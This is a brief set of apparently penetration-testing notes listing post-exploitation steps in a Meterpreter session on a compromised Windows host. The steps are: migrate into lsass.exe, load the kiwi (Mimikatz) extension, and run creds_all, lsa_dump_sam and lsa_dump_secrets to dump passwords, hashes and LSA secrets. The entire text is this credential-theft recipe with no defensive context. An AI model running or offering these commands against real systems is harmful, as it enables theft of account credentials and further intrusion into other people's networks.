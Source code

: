 - after exploit target and get mterpreter
- migrate -N lsass.exe
- load kiwi
	- creds_all
	- lsa_dump_sam
	- lsa_dump_secrets